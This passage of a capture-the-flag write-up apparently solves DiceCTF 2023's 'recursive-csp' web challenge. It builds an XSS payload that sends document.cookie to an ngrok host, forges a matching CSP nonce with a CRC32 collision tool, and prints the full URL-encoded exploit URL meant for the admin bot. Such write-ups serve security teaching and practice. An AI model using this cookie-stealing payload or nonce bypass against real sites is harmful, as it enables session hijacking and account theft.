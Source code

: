 **Then we can modify the XSS payload:**
```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|18:01:03(HKT)]
└> echo -n '<script nonce="f4dbdf21">document.location="https://2330-{Redacted}.ap.ngrok.io?"+document.cookie</script>' > payload.txt
```

> Note: The XSS payload must less than 128 characters, as the web application will check that.

**Again, find the collided bytes:**
```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|18:02:33(HKT)]
└> /opt/crc32-file-collision-generator/matchfile target.txt payload.txt
File to match has length 1, CRC32 value f4dbdf21
File to get to match has length 110, CRC32 value 43e6a8bd
Bytes to match: 2f3771c3
c3 71 37 2f 
�q7/
```

**URL encode it:**
```py
    matchedBytes = '%c3%71%37%2f'
```

```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|18:02:57(HKT)]
└> python3 url_encode_payload.py 
URL encoded Payload:
https://recursive-csp.mc.ax/?name=%3Cscript%20nonce%3D%22f4dbdf21%22%3Edocument.location%3D%22https%3A//2330-{Redacted}.ap.ngrok.io%3F%22%2Bdocument.cookie%3C/script%3E%c3%71%37%2f
```

**Finally, send the above URL to [admin bot](https://adminbot.mc.ax/web-recursive-csp):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/DiceCTF-2023/images/Pasted%20image%2020230208180401.png)

